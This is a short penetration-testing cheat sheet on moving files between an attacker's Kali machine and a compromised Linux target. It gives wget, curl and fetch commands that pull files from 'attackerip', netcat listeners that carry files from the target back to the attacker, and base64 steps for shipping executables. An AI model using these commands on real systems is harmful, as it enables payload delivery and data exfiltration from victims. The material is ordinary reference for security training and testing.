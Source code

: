 # Linux File Transfer


## Python SimpleHTTPServer
```bash
#on Attacker
python -m SimpleHTTPServer 9999

#on target
wget <ip>:9999/file.txt
curl -O http://<ip>/file.txt
```

------------------------------
## Apache
```bash
# On Attacker
cp filetosend.txt /var/www/html
service apache2 start

# On Target
wget http://attackerip/file
curl http://attackerip/file > file
fetch http://attackerip/file        # on BSD
```
---------------------------------
## Netcat
```bash
### From target to Kali)
# Listen on Kali
nc -lvp 4444 > file

# Send from Target machine
nc <kali_ip> 4444 < file

### From Kali to target
# on target, wait for the file
nc -nvlp 55555 > file
cat binary | base64 | nc -nlvp 4444

# on kali, push the file
nc $victimip 55555 < file

```
## Sending Executables
```bash
# Encode executable
base64 executable
# copy the output
# paste it in a file called file.txt
# decode it and create the executable
base64 -d file.txt > executable
```

